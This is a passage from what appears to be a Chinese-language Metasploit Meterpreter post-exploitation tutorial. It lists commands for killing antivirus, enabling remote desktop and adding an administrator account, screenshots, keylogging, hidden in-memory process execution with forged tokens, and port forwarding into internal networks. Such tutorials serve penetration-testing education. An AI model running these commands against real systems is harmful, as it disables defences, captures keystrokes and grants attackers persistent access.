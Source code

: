 　　1.关闭防病毒软件

　　run killav

　　run post/windows/manage/killav

　　2.操作远程桌面

　　run post/windows/manage/enable_rdp开启远程桌面

　　run post/windows/manage/enable_rdp username=test password=test添加远程桌面的用户(同时也会将该用户添加到管理员组)

　　3.截屏

　　screenshot

　　4.键盘记录

　　keyscan_start：开启键盘记录功能

　　keyscan_dump：显示捕捉到的键盘记录信息

　　keyscan_stop：停止键盘记录功能

[![image.png](https://image.3001.net/images/20181116/1542350631_5bee6727eed9a.png)](https://image.3001.net/images/20181116/1542350631_5bee6727eed9a.png)

　　5.执行程序

　　execute -h 查看使用方法

　　-H：创建一个隐藏进程

　　-a：传递给命令的参数

　　-i：跟进程进行交互

　　-m：从内存中执行

　　-t：使用当前伪造的线程令牌运行进程

　　-s：在给定会话中执行进程

　　例：execute -f c:/temp/hello.exe

　　八、端口转发和内网代理

　　1.portfwd

　　portfwd是meterpreter提供的端口转发功能，在meterpreter下使用portfwd -h命令查看该命令的参数。

[![image.png](https://image.3001.net/images/20181116/1542350678_5bee67566e4df.png)](https://image.3001.net/images/20181116/1542350678_5bee67566e4df.png)

　　常用参数：

　　-l：本地监听端口

　　-r：内网目标的ip

　　-p：内网目标的端口

[![image.png](https://image.3001.net/images/20181116/1542350702_5bee676ecdf27.png)](https://image.3001.net/images/20181116/1542350702_5bee676ecdf27.png)

